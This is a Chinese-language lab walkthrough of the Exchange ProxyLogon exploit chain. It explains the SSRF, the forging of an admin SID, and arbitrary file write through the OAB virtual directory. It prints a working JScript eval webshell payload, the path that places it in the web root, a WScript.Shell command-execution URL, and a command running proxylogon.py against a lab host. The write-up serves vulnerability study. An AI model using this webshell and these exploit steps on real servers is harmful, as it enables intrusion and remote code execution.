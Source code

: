 # Exchange ProxyLogon 攻击利用链

[ProxyLogon 漏洞分析 | Blog](https://blog.caspersun.club/2022/12/19/proxylogon/)

- CVE-2021-26855（Exchange 服务器请求伪造漏洞）：未经身份验证的域用户可以利用 Exchange 服务器身份向内网发送HTTP请求。
- CVE-2021-26857（Exchange 服务器反序列化漏洞）：管理员身份可以在 Exchange 服务器上以 system 身份执行代码。
- CVE-2021-26858/CVE-2021-27065（Exchange 服务器任意文件上传漏洞）：身份验证后的攻击者可以利用漏洞将文件上传至 Exchange 服务器任意目录。此exp通过发送HTTP请求进行的，因此可以结合CVE-2021-26855（Exchange 服务器请求伪造漏洞）利用 Exchange 服务器身份触发。
- CVE-2021-26412、CVE-2021-26854、CVE-2021-27078（Exchange 服务器 RCE 远程代码执行漏洞）

### ProxyLogon 攻击利用链

##### 漏洞利用

- CVE-2021-26855（Exchange 服务器请求伪造漏洞）
- CVE-2021-26858/CVE-2021-27065（Exchange 服务器任意文件上传漏洞）

##### 漏洞影响版本

- Exchange Server 2013
- Exchange Server 2016
- Exchange Server 2019

##### 漏洞原理

- 预身份验证绕过：漏洞存在于 Exchange 处理 /ecp/proxylogon.ecp 请求的代码逻辑中，攻击者通过 SSRF 直接访问后端服务，跳过了前端身份验证流程。
- 隐式信任模型：后端服务错误地将所有来自前端的请求视为已通过验证，未检查用户身份。

##### 攻击链流程

- 攻击者通过 ssrf 直接访问后端获取管理员令牌。
- 攻击者使用管理员凭据写入木马。

##### Exchange 服务器任意文件上传漏洞原理（web漏洞：文件上传）

Exchange 服务器的 ECP 接口是Exchange 管理中心，是管理员管理组织中的 Exchange 的 Web 控制台，因此 ECP 接口就是管理员通过 Web 控制台访问的。

使用管理员身份登录 Exchange 管理中心后，在 Web 控制台的 “Exchange 管理中心” 下的 “虚拟目录” 配置窗口中。

- 选中 “OAB” 并点击 “修改” 按钮（ “OAB” 以外的其他接口也可以完成漏洞利用）
- 修改 “OAB” 的外部 URL 为一句话shell
- 修改存储路径为 “\\127.0.0.1\C$\inetpub\wwwroot\aspnet_client\shell.aspx” 后，点击重置

此时一句话shell已经保存在这个路径下。流程截图如下：

```
# 找到 exchange 管理中心，“服务器” ----> “虚拟目录” ----> “修改”。
# 修改外部 url 如下内容。
# 点击保存。

http://test/#<script language="JScript" runat="server">function Page_Load(){eval(Request.QueryString("cmd")+"")}</script>
```

![image-20250329155650909](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250329155650909.png)

```
# 此后再点击 “重置”，将设置文件保存在如下目录。

\\127.0.0.1\C$\inetpub\wwwroot\aspnet_client\shell.aspx

# 之后设置文件保存在 web 目录。
```

![image-20250329155924500](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250329155924500.png)

```
# 如下图，ExternalUrl 存放着一句话 shell。
# 访问如下 url 获得 rce

https://192.168.3.144/aspnet_client/shell.aspx?cmd=Response.Write(new ActiveXObject("WScript.Shell").exec("ipconfig").StdOut.ReadAll())
```

![image-20250329160150487](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250329160150487.png)

##### Exchange 服务器请求伪造漏洞（web漏洞：ssrf服务端请求伪造）

在 Exchange Server 中，前端服务器（CAS）主要负责接收客户端请求，并根据请求目标将其代理到后端服务器。

```
客户端（如 Outlook、OWA） 
       ↕
前端服务（Front End Services/Client Access Services, CAS） 
       ↕
后端服务（Back End Services）
       ↕
数据库（Mailbox Database）

# 正常情况下，前端需要接收并验证用户凭据再代理到后端，但由于 ssrf 漏洞，攻击者可以直接访问后端，而后端信任了伪装成前端内部通信的恶意请求。
# 攻击者通过 ssrf 获取管理员令牌。
# 再使用管理员凭据写入木马。
```

![image-20241213193928948](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20241213193928948.png)

![image-20241213194253384](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20241213194253384.png)

如上图所示，当客户端发送 HTTP 请求给 CAS 后，CAS 通过 ResolveAnchorMailbox 函数解析目标后端服务的地址，并将请求代理到后端。如果BEResourceCookie 存在的话，就调用 BackEndServer.FromString 创建一个 BackEndServer 实例，创建此实例后，即可调用对应的后端服务。因此只要数据包在 BEResourceCookie 中指定 X-BEResource，那么 CAS 将请求 X-BEResource 对应的后端服务。

X-BEResource 格式如下：

```
<FQDN>~<BackEndServerVersion>
```

- <FQDN> ：目标后端服务的 FQDN。
- <BackEndServerVersion> ：后端服务器版本号，表示兼容的后端服务版本。

### ProxyLogon攻击利用流程

##### ssrf 获取管理员令牌

1. 发送 EXP 触发 Exchange 服务器的 ssrf 漏洞来获得邮箱服务器的 FQDN。
   - 如果响应数据包存在 "X-CalculatedBETarget" 和 "X-FEServer" 说明 ssrf 漏洞已经触发了。
   - ssrf 漏洞触发后，响应包内包含邮箱服务器的 FQDN。

![image-20241213192424074](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20241213192424074.png)

2. 向 AutoDiscover 发送请求获取 LegacyDN。
   - 访问后端服务的 AutoDiscover 接口，此接口需要 NTLM 认证。

![image-20241213195823783](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20241213195823783.png)

3. 利用上一步的 LegacyDN，向 Mapi 接口 发送请求，获得用户的 SID，再将此 SID 末尾替换为 500（伪造管理员SID）。

   - 此 Mapi 接口使用NTLM认证。

   ![image-20241213200935984](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20241213200935984.png)

4. 以管理员身份向 /ecp/proxylogon.ecp 接口发起请求，获得身份认证所需的 ASP.NET_SessionId 和 msExchEcpCanary 值。

   - ecp 接口使用 https 认证，通过构造请求体，向其发送请求。

   ![image-20241213201102981](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20241213201102981.png)


##### 任意文件写入漏洞写入 shell

1. 访问 /ecp/DDI/DDIService.svc/GetObject 接口获得 OAB 的RawIdentity 值。

![image-20241213201304753](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20241213201304753.png)

2. 访问 /ecp/DDI/DDIService.svc/SetObject 上传 webshell。

3. 访问 /ecp/DDI/DDIService.svc/SetObject 设置 webshell 保存路径。

### ProxyLogon 漏洞利用

```
# 漏洞利用
proxychains python3 proxylogon.py 192.168.3.144 administrator@rootkit.org
```

![image-20250329172755474](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250329172755474.png)

```
# 木马保存在如下路径。
C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\shell.aspx

# url 如下。
https://192.168.3.144/owa/auth/shell.aspx

# post 参数为 data。
# 使用蚁剑连接，需要忽略 https 证书。
```

![image-20250329174953141](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250329174953141.png)